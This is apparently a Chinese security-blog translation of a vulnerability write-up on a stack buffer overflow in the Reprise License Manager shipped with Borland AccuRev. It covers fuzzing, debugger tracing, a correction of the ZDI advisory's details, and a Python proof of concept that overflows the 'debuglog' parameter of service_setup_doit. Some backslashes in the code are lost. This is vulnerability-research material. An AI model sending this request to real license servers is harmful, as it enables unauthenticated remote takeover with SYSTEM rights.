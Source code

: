> 原文链接: https://www.anquanke.com//post/id/82808 


# Borland AccuRev许可证服务器的缓冲区溢出漏洞


                                阅读量   
                                **70398**
                            
                        |
                        
                                                                                    



**[![](https://p4.ssl.qhimg.com/t01f632ed2b361cdaea.jpg)](https://p4.ssl.qhimg.com/t01f632ed2b361cdaea.jpg)**

**我最近看到zerodayinitiative发布了一个**[**http://www.zerodayinitiative.com/advisories/ZDI-15-416/Borland**](http://www.zerodayinitiative.com/advisories/ZDI-15-416/Borland)** AccuRev 许可证服务器的漏洞。**

他们关于这个漏洞的说明如下:<br>

这个漏洞允许远程的攻击者在安装有Borland AccuRev的服务器上执行任意命令,并且不需要认证。这个漏洞存在在service_startup_doit函数,在处理licfile参数的时候,有可能引发栈溢出。因为Reprise License Manager被安装成服务,因此攻击着可以获取SYSTEM权限。

通过ZDI的报告,我发现有2处欺骗的信息:

1.有问题的函数是"service_Setup_doit"而不是"service_startup_doit".

2.有问题的参数是"debuglog"而不是"licfile".

AccuRev的下载链接如下:

[http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe](http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe)

通过在rlm.exe里搜索service_startup_doit字符串并没有发现任何结果,我尝试搜索"service_" ,得到了下面的结果



[![](https://p0.ssl.qhimg.com/t01146ec5079d9063d0.png)](https://p0.ssl.qhimg.com/t01146ec5079d9063d0.png)



我不想根据这些字符串分析相应的函数,我这里用了其他的方法来尝试发现bug.

ZDI说漏洞函数能够被远程访问,所以我开始读RLM手册,找线索。RLM有一个web服务,监听5054,通过配合burpsuite我进行了一些fuzzing,最终在一个post请求里发现了"licfile"参数



[![](https://p4.ssl.qhimg.com/t016bcc1f8eacb63165.png)](https://p4.ssl.qhimg.com/t016bcc1f8eacb63165.png)



但是rlm.exe返回了错误信息,并没有崩溃



[![](https://p3.ssl.qhimg.com/t0122723663d2f48ec6.png)](https://p3.ssl.qhimg.com/t0122723663d2f48ec6.png)



我在immunity调试器里设置了断点,跟踪rlm.exe如果处理字符串长度。



[![](https://p3.ssl.qhimg.com/t014d91ac9ec4dd9756.png)](https://p3.ssl.qhimg.com/t014d91ac9ec4dd9756.png)



基于上面的ASM代码,rlm检测字符串的长度小于或等于0x400,来阻止缓冲区溢出。我这时候想,或许我下载的rlm.exe版本不存在漏洞,接着我继续fuzzing,最终发现,当发送给"debuglog"参数的字符串小于0x400的时候,能够绕过检测,覆盖栈的返回值为0x414141,所以我推断出,有漏洞的参数是"debuglog",而不是"licfile"



[![](https://p5.ssl.qhimg.com/t01eda88480b8c18b02.png)](https://p5.ssl.qhimg.com/t01eda88480b8c18b02.png)



我通过查看rlm.exe,发现它并不支持ASLR,但是这里有一个问题,rlm.exe地址里包含null,导致我们不能构造ROP,所以我这里是在XP系统上演示的,直接在栈里返回shellcode.

POC 代码如下:



```
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= `{`
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"x41x41x41x41",
    'licfile':'C:UsersusernameDesktoprlm-old'
    `}`
print requests.post(url, data=data).text
```

原文:[https://github.com/Rootkitsmm/Borland-AccuRev-StackoverFlow](https://github.com/Rootkitsmm/Borland-AccuRev-StackoverFlow)
